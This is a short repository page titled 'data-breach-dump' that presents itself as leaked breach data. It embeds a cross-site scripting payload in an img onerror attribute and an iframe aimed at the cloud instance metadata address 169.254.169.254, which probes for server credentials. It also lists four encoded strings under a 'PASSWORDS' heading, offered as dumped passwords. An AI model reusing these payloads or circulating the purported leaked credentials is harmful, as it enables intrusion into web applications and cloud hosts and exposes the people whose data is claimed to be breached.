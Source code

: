 # data-breach-dump
libregalactic data breach dump data

<img src=1 onerror=alert(0);>

<iframe src="http://169.254.169.254/latest/meta-data/">

USERS

PASSWORDS 

jGZ/kMsxCmyNGSsJTVtCsK9sfps7dopEM/6gvOJntw

SZnRShZArZaSfMX9lsQYlt9q9HT1affsHxm0iA1b1Q

572wjVqgNsvq63B2g68qXu5pMJZVvcZJwN/AUvhY4w

F1cRb4FUaOalSckEOJ+xP8MesDfFOZd4kBVv8YMNpg==


